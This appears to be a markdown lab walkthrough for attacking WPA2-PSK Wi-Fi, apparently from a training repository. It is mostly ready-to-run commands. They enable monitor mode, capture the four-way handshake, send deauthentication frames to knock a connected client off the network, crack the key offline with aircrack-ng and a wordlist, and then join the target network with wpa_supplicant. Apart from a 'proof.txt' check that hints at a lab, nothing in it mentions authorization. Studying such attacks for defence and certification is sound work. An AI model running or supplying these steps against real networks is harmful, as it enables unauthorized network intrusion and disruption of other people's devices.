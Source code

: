 
# 🛡️ WPA2-PSK Attack
## Time to perform the attack: 7 minutes

## ⚙️ Initial Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Monitor mode enabled on `wlan0mon`.

---

## 🔍 Scan for Targets

Since WPA2 works both on 2,4Ghz and 5Ghz, check what access points (APs) are active on those frequencies.

**To recognize them check for WPA2-PSK and Cipher CCMP**

```bash
sudo airodump-ng  --band abg wlan0mon
```

From here, identify
- BSSID
- Channel
- ESSID
- Clients

Use TAB and M key to highlight the each APs in order to check also associated clients. 

Ideally we want to attack some AP that has already clients connected to it.

Finally, check the channel where the AP is working and run again to get a cleaner output 

```bash
channel=6
sudo airodump-ng -c ${channel} wlan0mon
```

---

## 🎯 Capture Handshake

It's time to Capture the Handshake and for this we'll capture an **authentication handshake**.

**NOTE:** **WPA2 doesn’t reuse IVs as WEP does**. It uses a secure 4-way handshake to derive session keys.

    The attack focuses on capturing this handshake, which occurs only when a client **connects** to the network.

    The handshake contains hashed information that can be brute-forced **offline** if the password is weak.

So, we send deauthentication frames to a connected client. The client is forced to disconnect and reconnect. The handshake is captured. BOOM!

📌 It's important to understand that deauth doesn’t flood traffic; it simply forces a re-authentication to trigger the handshake.

Let's do it:

```bash
mkdir WPA2
cd WPA2
channel=6
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo airodump-ng -c ${channel}  -w ${dumpfile} --output-format pcap,csv --essid ${essid} --bssid ${bssid} wlan0mon
```
Keep this running! **You're sniffing for the WPA handshake**.

---

## 💣 Force Handshake with Deauth

In a second terminal tab.
Send a deauthentication frame to the choosen client.
In this case it will try to re-authenticate again during our capture.

```bash
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo aireplay-ng -0 1 -e ${essid} -a ${bssid} -c ${client}  wlan0mon
```
This forces the client to disconnect and reconnect, generating the handshake.
At this point come back to terminal 1 and check if a WPA handshake is captured.

---

## 👁️ Confirm Handshake

In the top-right corner of `airodump-ng`output, look for:

```bash
WPA handshake: <BSSID>
```

If you get it, press CTRL+C to stop airodump. 
Also, stop monitoring on wlan0mon:

```bash
sudo airmon-ng stop wlan0mon
```
---

## 🔓 Crack the Password

```bash
wordlist='/usr/share/john/password.lst'
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

aircrack-ng -w ${wordlist} -e ${essid} -b ${bssid} ${dumpfile}-01.cap
```

**Substitute `john wordlist` with rockyou.txt if needed.**
---

## 🔌 Connect Using wpa_supplicant

### wpa2.conf

Let's create a network configuration file.

```bash
wpa_key='starwars1'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

cat << EOF > /tmp/wpa.conf
  network={
         ssid="${essid}"
         key_mgmt=WPA-PSK
         psk="${wpa_key}"
         priority=100
         bssid=${bssid}
        }
EOF
```
We'll use this network configuration file with the tool ‘wpa_suppliant’ and connect to the target WPA2 network.

### Launch connection

In one terminal:
```bash
sudo wpa_supplicant -i wlan0 -c /tmp/wpa.conf
```

In another terminal:
```bash
sudo dhclient wlan0 -v
```
---

## ✅ Confirm Network Access

```bash
target=192.168.2.1
curl http://${target}/proof.txt
```

Look for an assigned `inet` IP like:

```
inet 192.168.2.48/24 brd 192.168.2.255 scope global dynamic wlan0
```

You're inside the network.

---

Next up: PMKID attacks, hashcat brute force, or rogue APs. Your call.
